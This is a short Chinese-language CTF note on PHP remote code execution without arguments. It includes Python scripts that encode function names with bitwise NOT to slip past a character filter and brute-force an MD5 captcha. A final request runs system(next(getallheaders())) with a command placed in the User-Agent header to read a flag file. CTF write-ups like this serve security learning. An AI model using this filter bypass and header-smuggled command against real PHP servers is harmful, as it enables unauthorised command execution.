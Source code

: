 tags:: [[CTF/PHP/无参数RCE]]

- # 思路
	- 使用取反构造任意函数名，并使用[无参数注入]([[CTF/PHP/无参数RCE]])进行RCE
- # 取反构造函数名
	- python脚本如下
	- ```python
	  def get_str(s):
	      return b"[~PAYLOAD][!\xFF]".replace(b"PAYLOAD", bytes(255 - ord(c) for c in s))
	  
	  def payload(lst):
	      if len(lst) == 0:
	          return b";"
	      return b"STRING(SUBPAYLOAD);".replace(b"STRING", get_str(lst[0])).replace(
	          b"SUBPAYLOAD",
	          payload(lst[1:]).replace(b";", b"")
	      )
	  
	  print(payload(["var_dump", "getallheaders"]))
	  ```
- # 利用无参数注入进行RCE
	- 使用`system(next(getallheaders()))`拿到UserAgent并传给`system`函数即可
	- ```python
	  @functools.lru_cache
	  def get_code(md5_head):
	      while True:
	          s = random_chars()
	          if enc_dec.md5_encode(s).startswith(md5_head):
	              return s
	  
	  r = base_get(url)
	  result = re.search(",0,5\)==(.{5})", r.text)
	  assert result is not None
	  captcha = result.group(1)
	  print(captcha)
	  
	  def get_str(s):
	      return b"[~PAYLOAD][!\xFF]".replace(b"PAYLOAD", bytes(255 - ord(c) for c in s))
	  
	  def payload(lst):
	      if len(lst) == 0:
	          return b";"
	      return b"STRING(SUBPAYLOAD);".replace(b"STRING", get_str(lst[0])).replace(
	          b"SUBPAYLOAD",
	          payload(lst[1:]).replace(b";", b"")
	      )
	  
	  r = base_post(url, data = {
	      "cmd": payload(["system", "next", "getallheaders"]),
	      # "code": "1145"
	      "code": get_code(captcha)
	  }, headers = {
	      "User-Agent": "cat /flll1114gggggg"
	  })
	  print(r.text)
	  ```